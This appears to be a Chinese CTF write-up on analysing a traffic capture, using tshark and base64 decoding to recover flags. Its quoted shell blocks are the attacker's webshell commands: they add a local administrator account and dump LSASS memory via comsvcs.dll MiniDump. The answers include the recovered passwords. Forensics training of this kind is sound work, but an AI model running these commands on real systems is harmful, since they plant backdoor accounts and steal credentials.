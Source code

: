 搜索`database`

> http.response.code\==200 and ip.dst==192.168.94.59		database

> **flag{e667jUPvJjXHvEUv}**

# 流量特征分析-蚂蚁爱上树

`tshark -r mayishangshu.pcapng -Y 'http.request.method==POST' -Tjson > test.json`

`(for i in $(cat test.json |grep -v 'luaV9zZXQ'|grep -v '@base64'|grep -P '(?<="urlencoded-form.value": "..)[^"]*(?=")' -o);echo $i|base64 -d &&echo ) > text.txt`

## 一,管理员Admin账号的密码是什么？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net group "domain admins" /domain&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators admin /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'Admin'

> **flag{Password1}**

## 二,LSASS.exe的程序进程ID是多少？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'exe' 

> **flag{852}**

## 三,用户WIN101的密码是什么?

> **flag{admin#123}**



